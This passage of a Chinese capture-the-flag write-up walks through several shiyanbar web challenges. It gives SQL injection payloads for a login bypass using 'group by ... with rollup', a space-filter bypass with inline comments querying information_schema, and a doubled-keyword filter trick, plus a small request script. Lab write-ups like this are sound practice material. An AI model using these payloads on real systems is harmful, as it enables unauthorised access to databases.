 +-------+------+  
| admin | NULL |  
+-------+------+  
1 row in set   

构造payload:  
`uname=1' or true group by pwd with rollup limit 1 offset 2#&pwd=`  
offset 2为偏移两个数据，即第三行的pwd字段为空。  
![](https://i.loli.net/2019/04/09/5cac9b6950ed3.png)  
### 0x09 简单的sql注入之3
#### 简单概括：
+ 考点：mysql报错注入
+ 难度：易  
+ WP：https://www.cnblogs.com/caizhiren/p/7846917.html  

#### 解题过程：
exp函数报错一把嗦  
![]()  

### 0x0A 简单的sql注入之2
#### 简单概括：
+ 考点：空格过滤  
+ 难度：易  
+ WP：https://www.cnblogs.com/caizhiren/p/7862466.html  

#### 解题过程：
简单Fuzz发现过滤了空格，使用内敛注释一把嗦。 
```
/**/select/**/group_concat(table_name)/**/from/**/information_schema.tables=database()
```

### 0x0B 简单的sql注入之1
#### 简单概括：
+ 考点：双层叠加绕过  
+ 难度：易
+ WP：https://www.jianshu.com/p/5d37d33854e3  

#### 解题过程
```
selectselect 
```
### 0x0C 天下武功唯快不破
#### 简单概括：
+ 考点：脚本工具的编写  
+ 难度：易  
+ WP：无

#### 解题过程：
```
import requests,base64
r = requests.get('http://ctf5.shiyanbar.com/web/10/10.php')
key=base64.b64decode(r.headers['FLAG'])[-9:]
r = requests.post('http://ctf5.shiyanbar.com/web/10/10.php',data={'key':key})
print(r.text)
```
